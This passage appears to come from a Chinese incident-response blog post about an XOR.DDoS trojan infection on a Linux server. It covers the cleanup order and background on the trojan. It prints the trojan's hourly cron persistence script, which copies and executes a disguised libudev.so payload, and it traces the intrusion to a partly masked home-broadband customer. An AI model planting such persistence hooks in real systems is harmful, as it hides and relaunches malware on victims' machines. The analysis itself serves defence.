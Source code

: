 2. 程序入口
**-bash-4.3# vi /etc/cron.hourly/gcc.sh**
```
\#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`; do ifconfig $i up& done   
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```
木马通过crontab创建时间计划任务来实现启动,运行该gcc.sh，该命令启动所有网卡，并拷贝/lib/libudev.so文件到/lib/libudev.so.6并执行该文件。

3. 攻击路径
如果部署了登陆审计平台，或者对方还没来得及清扫犯罪现场，可以看到他的来路：
```
-bash-4.3# last -10
user   pts/3        11X.25.49.200    Mon Jun  6 23:46 - 01:47  (02:01)
```
再根据以上公网IP和时间，可以定位到它的来源是某普通宽带用户。
宽带账号：05919399XXXX@fj
客户名称：危XX

4. 应急清除策略
恢复crontab－>清除gcc.sh －>清除/lib/libudev.so.6 －>查杀进程
一定要注意操作顺序，如果只kill掉进程是没有用的，它已经做到自己复制、重启。


#### XOR.DDoS木马原理
编号101是一款国产的Linux系统的远程控制软件（Linux/XOR.DDoS）。

MalwareMustDie首先在2014年10月曝光了该木马。32位和64位的Linux Web服务器、台式机、ARM架构系统等也容易遭受该木马攻击。

杀毒软件公司Avast在它们的博客中解释了这种新的威胁，该木马可以根据目标Linux系统环境的不同来相应调整安装方式，并安装一个rootkit来躲避杀毒软件的检测。黑客首先通过SSH暴力登录目标Linux系统，然后尝试获得根用户证书。如果成功，则通过一个shell脚本安装该木马，该shell脚本的功能主要包括：主程序、环境检测、编译、解压、安装等。该木马首先通过受害系统的内核头文件来进行兼容性检测，如果成功匹配则继续安装一个rootkit，以此来隐藏木马自身。

此外，它主要针对游戏和教育网站，能够对其发起强有力的DDoS攻击，可以达到每秒1500亿字节的恶意流量。根据内容分发网络Akamai科技发布的一份报告，XOR DDoS僵尸网络每天至少瞄准20个网站，将近90%的目标站点位于亚洲。报告中声称：
“Akamai的安全情报反应小组（SIRT）正在追踪XOR DDoS，这是一个木马恶意软件，攻击者使用它劫持Linux机器并将其加入到僵尸网络，以发起分布式拒绝服务攻击（DDoS）活动。迄今为止，XOR DDoS僵尸网络的DDoS攻击带宽从数十亿字节每秒（Gbps）到150+Gbps。游戏行业是其主要的攻击目标，然后是教育机构。今天早上Akamai SIRT发布了一份安全威胁报告，该报告由安全响应工程师Tsvetelin ‘Vincent’ Choranov所作。”

#### 源码分析

**多态（Polymorphic）** 是指恶意软件在自我繁殖期间不断改变（“morphs”）其自身文件特征码（大小、hash等等）的特点，衍生后的恶意软件可能跟以前副本不一致。因此，这种能够自我变种的恶意软件很难使用基于签名扫描的安全软件进行识别和检测。

![样本](http://o8m8ngokc.bkt.clouddn.com/trojan-demo-1.png)

![样本](http://o8m8ngokc.bkt.clouddn.com/trojan-demo-1-2.png)

木马具有非常多功能：增加服务、删除服务、执行程序、隐藏进程、隐藏文件、下载文件、获取系统信息、发起DDOS攻击等行为。
主程序的作用是根据感染目标机器的系统开发版本传输并且选择C&C服务器。
C2服务器归属地为美国,加利福尼亚州,洛杉矶。

其实就算是拿到了样本，逆向难度也很大。何况木马关键数据全部加密，传输过程也加密，哪哪都是加密。笔者曾经试图自行破解，找来了《IDA Pro指南》之类的秘籍，无奈功力不够，只能草草收场。
